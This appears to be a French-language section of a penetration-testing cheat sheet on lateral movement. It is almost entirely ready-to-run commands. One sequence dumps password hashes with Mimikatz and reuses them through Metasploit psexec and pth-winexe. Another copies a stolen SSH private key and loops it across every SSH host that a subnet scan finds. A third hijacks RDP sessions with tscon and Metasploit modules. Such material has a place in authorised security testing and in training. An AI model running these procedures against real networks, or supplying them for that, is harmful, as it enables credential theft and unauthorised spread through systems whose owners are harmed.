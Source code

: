 ## 🌐 Lateral Movement

### Pass-the-Hash avec Metasploit
```bash
# 1. Obtenir les hashes avec Mimikatz
meterpreter > load kiwi
meterpreter > lsa_dump_sam

# 2. Utiliser les hashes pour se connecter à d'autres machines
msfconsole
use exploit/windows/smb/psexec
set RHOSTS target2.com
set SMBUser Administrator
set SMBPass [hash_value]  # Format LM:NTLM
run

# 3. Pass-the-hash avec pth-winexe
pth-winexe -U Administrator%[LM_hash]:[NTLM_hash] //target2.com cmd.exe
```

### SSH Key Propagation
```bash
# 1. Copier la clé privée trouvée
scp user@compromised_host:~/.ssh/id_rsa ./stolen_key
chmod 600 stolen_key

# 2. Utiliser la clé pour accéder à d'autres systèmes
ssh -i stolen_key user@target2.com

# 3. Scanner le réseau pour d'autres cibles SSH
nmap -p 22 internal_network/24
for ip in $(nmap -p 22 --open internal_network/24 | grep "Nmap scan report" | awk '{print $5}'); do
    ssh -i stolen_key -o ConnectTimeout=5 user@$ip "hostname" 2>/dev/null
done
```

### RDP Session Hijacking
```bash
# 1. Lister les sessions RDP actives
meterpreter > run post/windows/gather/enum_logged_on_users

# 2. Utiliser tscon pour hijacker une session
meterpreter > shell
C:\> query session
C:\> tscon [session_id] /dest:console

# 3. Ou utiliser le module Metasploit
meterpreter > run post/windows/manage/enable_rdp
meterpreter > run post/windows/manage/rdp_hijack
```
